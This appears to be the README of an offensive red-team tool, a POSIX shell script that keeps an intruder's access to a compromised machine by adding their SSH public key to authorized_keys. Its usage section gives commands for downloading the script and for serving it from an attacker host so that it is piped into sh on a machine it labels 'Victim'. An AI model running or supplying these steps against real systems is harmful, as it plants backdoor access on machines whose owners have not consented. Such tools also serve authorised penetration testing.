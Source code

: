 # Persistence Phase

Definition...  

Available parts:
- Modify SSH Keys

## Usage

```bash
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
./persistence.sh -h
```
```bash
# Local network
sudo python -m SimpleHTTPServer 8000 #Host
curl <Host>:8000/persistence.sh | sh #Victim
```

### Parameters
```bash
./persistence.sh -h

Usage: ./persistence.sh [-h] [-s]

-s <SSH public key>
  Trying to add ssh public key to authorized_keys
```

## Results

Results are output directly to the STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 
